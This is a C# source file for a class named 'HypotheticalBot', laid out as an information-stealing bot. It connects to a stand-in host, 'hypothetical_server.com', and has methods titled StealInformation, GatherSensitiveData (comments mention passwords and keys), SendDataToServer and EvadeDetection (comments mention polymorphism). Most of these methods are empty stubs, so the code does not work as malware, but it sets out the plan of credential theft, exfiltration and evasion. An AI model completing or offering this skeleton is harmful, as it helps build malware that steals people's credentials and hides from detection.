 using System;
using System.Net;
using System.Net.Sockets;

public class HypotheticalBot
{
    public static void Main()
    {
        try
        {
            EstablishSecureConnection();
            StealInformation();
            EvadeDetection();
        }
        catch (Exception ex)
        {
            Console.WriteLine("An error occurred: " + ex.Message);
        }
    }

    public static void EstablishSecureConnection()
    {
        try
        {
            string serverAddress = "hypothetical_server.com";
            int port = 443;

            using (TcpClient client = new TcpClient())
            {
                client.Connect(serverAddress, port);
                // Hypothetically implement SSL here
            }
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error establishing secure connection: " + ex.Message);
        }
    }

    public static void StealInformation()
    {
        try
        {
            string sensitiveData = GatherSensitiveData();
            string encryptedData = EncryptionLibrary.Encrypt(sensitiveData);
            SendDataToServer(encryptedData);
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error stealing information: " + ex.Message);
        }
    }

    public static void EvadeDetection()
    {
        try
        {
            // Hypothetically implement techniques like polymorphism
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error evading detection: " + ex.Message);
        }
    }

    public static string GatherSensitiveData()
    {
        try
        {
            // Hypothetically collect data such as passwords, keys, etc.
            return "";
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error gathering sensitive data: " + ex.Message);
            return "";
        }
    }

    public static void SendDataToServer(string data)
    {
        try
        {
            // Hypothetically send data over the secure connection
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error sending data to server: " + ex.Message);
        }
    }
}

public static class EncryptionLibrary
{
    public static string Encrypt(string data)
    {
        try
        {
            // Hypothetically implement encryption algorithm
            return data;
        }
        catch (Exception ex)
        {
            Console.WriteLine("Error encrypting data: " + ex.Message);
            return data;
        }
    }
}
